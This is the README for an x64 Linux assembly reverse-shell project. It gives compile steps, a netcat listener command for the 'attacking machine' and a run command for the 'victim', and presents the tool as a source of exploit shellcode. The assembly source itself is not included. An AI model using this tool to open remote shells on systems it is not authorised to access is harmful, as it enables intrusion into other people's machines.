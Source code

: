 # x64_Linux_ASM_Reverse_Shell
A simple 64bit linux assembly reverse shell, can be use to generate shellcodes for exploits

It's really lightweight and can be used either for shellcodes or directly as reverse shell.

**Usage**
Don't forget to change ip in code - it's in reverse byte order

*Compile:*

```
| gcc reverse_shell.s -o reverse_shell
```
*On attacking machine:*
```
| nc -lvnp 4444
```
*On victim:*
```
| ./reverse_shell
```


Made by Pim
